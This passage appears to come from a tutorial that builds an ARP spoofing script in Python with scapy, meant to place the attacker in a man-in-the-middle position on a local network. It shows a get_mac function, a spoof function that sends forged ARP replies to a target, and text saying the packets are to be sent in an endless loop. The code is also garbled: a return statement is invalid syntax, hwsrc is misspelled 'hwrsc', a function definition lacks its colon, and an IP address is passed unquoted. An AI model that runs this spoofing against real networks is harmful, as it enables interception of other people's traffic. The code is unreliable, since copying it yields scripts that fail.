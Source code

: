 >The above code helps us to get the MAC and IP Address but our target is to get MAC Address from IP so we need some refatoring.

```python
def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]


    return answered_list= [0][1].hwrsc


```

>We first renamed the function name which looks familiar to our target now we don't need the entire clients_list= [] we just need the first element from answered_list[0] and from this we need to access "mac" so answered_list= [0][1].hwrsc and we don't require any further iteration so removed rest of the code, and copy it our main code

```python

#!/usr/bin/env python

import scapy.all as scapy

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    return answered_list= [0][1].hwrsc




def spoof (target_ip, spoof_ip)
  target_mac = get_mac(target_ip)
  packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
  scapy.send(packet)


get_mac(10.0.2.4)

```
We don't need to hardcode all the fields just giving target_ip we will get the MAC Address, Now if we execute our code it will executeD successfully and give a message 1 packet sent but we want to sent this packets on and on in order to be in the man in middle so we can trap our spoof code in a infinite loop to keep sending packets.

```python

#!/usr/bin/env python

import scapy.all as scapy
import time

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    return answered_list= [0][1].hwrsc


```